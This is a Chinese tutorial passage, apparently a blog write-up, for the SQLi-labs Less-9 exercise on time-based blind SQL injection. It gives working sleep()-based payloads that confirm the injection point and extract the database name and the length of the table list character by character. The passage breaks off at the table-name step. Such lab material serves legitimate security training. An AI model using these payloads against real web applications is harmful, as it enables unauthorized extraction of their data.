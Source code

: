 这题和第七题一样

布尔注入 outfile都可以

类型就是 1'

## Less-9 时间注入

这道题目 我们无论输入什么 都是返回 you are in

这个时候 不能使用有回显的注入了

因为他们无论有没有回显 都是回显 you are in

这个时候我们使用时间注入

时间注入 是在 布尔注入的基础上 加上了 if 和 sleep

```scss
if(查询语句,sleep(10),1)
 
 
通过这个我们就可以实现时间注入
 
如果 查询语句为真 就执行 sleep(10)
 
否则 执行 1
```

我们直接进行尝试

先判断闭合



```cobol
?id=1' and if(1=1,sleep(10),1)-- +
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/9e6bbddbee25fc1b1f86e56019f7f29c.png" alt="" style="max-height:92px; box-sizing:content-box;" />


发现确实 加载了10秒 所以 类型就是字符 然后闭合为 1'

可以开始判断 数据库长度

这里不需要才字段数 因为是以布尔注入为基础

直接一位一位爆

猜字段数是因为 union的需要

```cobol
数据库长度
?id=1' and if(length((select database()))=8,sleep(5),1)-- +
为 8 

爆破数据库第一个字符
?id=1' and if(ascii(substr((select database()),1,1))=115,sleep(5),1)-- +
为s
 
最后得到数据库security
 
爆破表的长度
/?id=1' and if(length((select group_concat(table_name)from information_schema.tables where table_schema='security'))=29,sleep(5),1)-- +

为29

爆破表的第一个字符
```